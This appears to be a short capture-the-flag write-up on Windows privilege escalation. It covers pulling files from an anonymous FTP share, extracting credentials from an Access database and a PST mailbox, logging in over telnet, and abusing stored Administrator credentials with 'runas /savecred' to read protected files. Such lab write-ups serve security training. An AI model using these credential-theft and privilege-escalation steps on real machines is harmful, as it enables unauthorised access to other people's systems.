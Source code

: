 # RunAs 

RunAs command allow us to run command as somebody else 

```
// To look for stored credentials on the machine 
cmdkey /list 

// nmap result 
PORT    STATE  SERVICE  VERSION 
21/tcp  open   ftp      Microsoft ftpd 
23/tcp  open   telnet? 
80/tcp  open   http?
```

We moving to the website in the port 80 but nothing interesting, we see ftp port is open and anonymous login is allowed here. 

```
ftp> ls 
Backups
Engineer 

// for effectively transfering the file 
ftp> binary 
ftp> cd Backups 
ftp> ls 
backup.mdb 
ftp> get backup.mdb 
ftp> cd Engineer 
Access Control.zip 
ftp> get "Access Control.zip"

// we found a mdb and pst file so for that we can use linux tool are open in windows 
mdb-sql backup.mdb 
readpst access_control.pst 
```

while reading it we found the credentials in the database and we found the engineer credentials so with made unzip the Access Control.zip and It contains a mail with the credentials for security account 

```
// we have telnet port now login using found security account credentials 
telnet -l security ip_address 

// we successfully logged in and start enumerating 
cmdkey /;os 

// to see the stored credentials and we found domain password is stored (administrator)
cmdkey /list 

// now using the save credentials to get a file in system directory 
c:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\file_name > C:\Users\security\file_name" 
```

Resource for [runas](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525(v=ws.11))

